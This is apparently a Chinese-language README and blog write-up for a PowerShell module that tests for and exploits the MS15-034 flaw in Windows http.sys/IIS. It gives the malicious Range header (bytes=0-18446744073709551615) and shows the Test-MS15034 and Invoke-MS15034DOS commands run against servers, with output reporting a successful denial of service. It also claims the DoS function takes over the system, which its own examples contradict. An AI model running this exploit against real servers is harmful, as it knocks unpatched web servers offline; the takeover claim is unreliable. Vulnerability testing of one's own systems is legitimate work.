 # MS15034
PowerShell module for the exploitation and testing 

http://www.hx99.net/Article/Tech/201504/36652.html

https://www.vulbox.com/lab/

星期四一早我的推特就被微软最新的ms15-034漏洞公告刷屏了.

ms15-034漏洞出在http.sys文件中.这个文件是iis的一个重要组件,功能和特性对windows来说意义重大.微软公告说这个漏洞是一个可以执行远程代码的漏洞,但是截至目前为止已发布的poc仅仅只能dos掉系统,虽然有人声称出售可以用于远程攻击的poc但是真实性值得怀疑.

过去这几出现了各种各样的poc,甚至用于攻击ms15-034的metasploit模块也出现了.如果你用类unix操作系统或者电脑里安装了诸如perlpython的脚本语言,你都可以获得相应版本的poc代码.只是,我觉得这些代码对windows管理员来说还是不够友好,我倾向于写一个powershell版本的poc.

chris campbell写的ps代码可以检测系统是否是易受攻击的,但是某些情况下这个ps代码的执行不够理想.

chris的代码有三个问题,1是他没有考虑到http 404错误的情况,第二个是不会收集http 400错误,第三个是代码有前后不匹配的问题.

我觉得仅仅用powershell来验证一个系统是否受攻击是不够的,最好是能更进一步拿下系统权限.

开始之前我们首先要明确一个问题,请不要使用.net的Webrequest类来生成http header的值,而应该用更底层的TCPClient类来实现.

我写的这个漏洞利用程序受到了Metasploit ms15034漏洞模块的影响.你可以在github上面找到这段代码 https://github.com/poshsecurity/MS15034. 其中最重要的两个函数是test-ms15-34和invoke-ms15034dos 前者是测试用的,后者执行对指定系统的dos攻击.

测试:

你需要给漏洞利用程序指定如下三个参数:

1. windows2008

2. windows2012

3. -serverPath

前两个参数代表被攻击的机器,它们会访问http://computer/welcom.png 和 http://computer/iis-85.png. 第三个参数是可选的,你可以用下面的方式使用这个参数:

1. /index.html

2. /companylogo.png

3. images/logo.jpg

让我们来看看具体的例子:

1.测试一台装了windows2008的服务器是否有漏洞。
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -Windows2008
This server is vulnerable to MS 15-034
PS C:\tools>

2. 测试一台装了windows2012的服务器是否有漏洞.
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.2 -Windows2012
This server is vulnerable to MS 15-034
PS C:\tools>

3. 测试显示服务器不存在漏洞
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.4 -Windows2012
This server is not vulnerable to MS 15-034
PS C:\tools>

4.使用自定义路径来测试服务器是否有漏洞
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -ServerPath "/welcome.png"
This server is vulnerable to MS 15-034
PS C:\tools>

5. 故意使用错误的系统版本来测试服务器是否有漏洞
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -Windows2012
Test-MS15034 : The provided path has not been found, check you have selected the right operating system, or specified
a valid file in -ServerPath
At line:1 char:1
+ Test-MS15034 -Computer 192.168.1.3 -Windows2012
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Test-MS15034
PS C:\tools>

6. 用自定义路径来检测一台服务器是否有漏洞（路径不存在）
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -ServerPath "/thisdoesnotexist.png"
Test-MS15034 : The provided path has not been found, check you have selected the right operating system, or specified
a valid file in -ServerPath
At line:1 char:1
+ Test-MS15034 -Computer 192.168.1.3 -ServerPath "/thisdoesnotexist.png"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Test-MS15034
PS C:\tools>

CMDLet用指定参数来连接URL,并且连接的时候指定http header的范围是 bytes=0-18446744073709551615.如果服务器响应式http 416那么就说明此服务器是受此漏洞影响的.

接下来我们来干一点邪恶的事情,通过这个漏洞直接拿到系统的权限. invoke-ms15034dos这个函数会帮我们实现这个目的.这个函数需要的参数和上面差不多.它们两者的区别在于后者用先测试被攻击的服务器是否是有漏洞的.有漏洞它才会执行攻击.否则它仅仅是执行dos攻击.dos攻击的 http header 需要被指定为: Range: bytes=0-18446744073709551615.

1. 对windwos2012r2服务器执行拒绝服务攻击
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Invoke-MS15034DOS -Computer 192.168.1.2 -Windows2012
The server is vulnerable, performing Denial Of Service
Looks like the DOS was successful
PS C:\tools>

2. 对windwos2008r2服务器执行拒绝服务攻击
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Invoke-MS15034DOS -Computer 192.168.1.3 -Windows2008
The server is vulnerable, performing Denial Of Service
Looks like the DOS was successful
PS C:\tools>

3. 下面的测试是来看看 如果你攻击一台打了补丁的服务器会出现的反应.
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Invoke-MS15034DOS -Computer 192.168.1.4 -Windows2012
Test-MS15034 reported the server not as vulnerable, so not performing Denial Of Service
PS C:\tools>

最后需要提醒的是,我的攻击代码只支持http,对https未做考虑.
